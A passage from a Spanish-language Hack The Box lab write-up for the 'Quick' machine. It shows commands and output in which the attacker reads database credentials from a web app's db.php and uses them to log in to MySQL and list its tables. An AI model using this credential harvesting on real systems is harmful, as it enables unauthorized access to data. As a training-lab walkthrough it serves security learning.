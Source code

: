 ![](/assets/images/HTB/htb-writeup-Quick/quick14.PNG)


Enumerando el sistema, encontramos un archivo con las credenciales de la base de datos.


```bash
sam@quick:/var/www/html$ ls
clients.php  db.php  home.php  index.php  login.php  search.php  ticket.php
sam@quick:/var/www/html$ cat db.php 
<?php
$conn = new mysqli("localhost","db_adm","db_p4ss","quick");
?>
```

Procemos a enumerar la base de datos y vemos las contraseñas hasheadas de los usuarios.

```sql
sam@quick:/var/www/html$ mysql -udb_adm -pdb_p4ss -D quick
mysql: [Warning] Using a password on the command line interface can be insecure.
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 128
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show tables;
+-----------------+
| Tables_in_quick |
+-----------------+
| jobs            |
| tickets         |
| users           |
+-----------------+
3 rows in set (0.00 sec)

```